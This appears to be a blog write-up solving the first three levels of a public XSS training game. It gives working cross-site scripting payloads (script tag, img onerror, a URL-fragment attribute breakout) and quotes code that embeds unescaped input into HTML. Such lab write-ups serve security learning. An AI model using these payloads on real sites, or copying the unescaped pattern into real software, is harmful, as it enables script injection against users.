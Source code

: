 ```yaml
---
title: XSS game v1
published: true 
tags: XSS
---
```


# Level 1:
I tested following payload:
```html
<script>alert(1)</script>
```
and it worked because user input is directly included in the page without any escaping.

# Level 2
In that case simple
```html
<script>alert(1)</script>
```
don't work, because user data is in the blockquote tag. I try with this:
```html
<img src='as' onerror=alert(1)>
```
and that worked.

# Level 3
Have some fun with app and obserwe url. If you do it carefully you will notice the url part after # is change value dynamicaly, if you select 'Image 1' there would be 1, if 'Image 2' then 2 and etc.. Let's check source:

```html
<div class="tab active" id="tab1" onclick="chooseTab('1')">Image 1</div>
```

So clicking into those 'buttons' fire up the chooseTab function. Let's check it out:

```js
    function chooseTab(num) {
    // Dynamically load the appropriate image.
    var html = "Image " + parseInt(num) + "<br>";
    html += "<img src='/static/level3/cloud" + num + ".jpg' />";
    $('#tabContent').html(html);

    window.location.hash = num;

    // Select the current tab
    var tabs = document.querySelectorAll('.tab');
    for (var i = 0; i < tabs.length; i++) {
        if (tabs[i].id == "tab" + parseInt(num)) {
        tabs[i].className = "tab active";
        } else {
        tabs[i].className = "tab";
        }
    }

    // Tell parent we've changed the tab
    top.postMessage(self.location.toString(), "*");
    }
```

This part of chooseTab is dangerous:
```js
    html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
It is dangerous because user controllable data is directly embedded into html code without proper encoding. So to exploit XSS you must create a valid img tag.

This part of code is interesting too:
```js 
    window.onload = function() { 
    chooseTab(unescape(self.location.hash.substr(1)) || "1");
    }
```
It tells us that the crossTab function is fired up on page loading.

My solution does not require user interaction. Victim must only click on a prepared link. Function chooseTab is fired up on page loading, value of parameter is part of url after # sign:
```
https://xss-game.appspot.com/level3/frame#<choseTam param value>
```
So now let's create valid img tag:
```html
html += "<img src='/static/level3/cloud" + 1.jpg' onload=alert(1)>< + ".jpg' />";
```

Payload:
```
https://xss-game.appspot.com/level3/frame#1.jpg' onload=alert(1)><
```

If someone go into this link an alert box would be displayed, because chooseTab function create following img tag:

```html
<img src="/static/level3/cloud1.jpg" onload="alert(1)">
```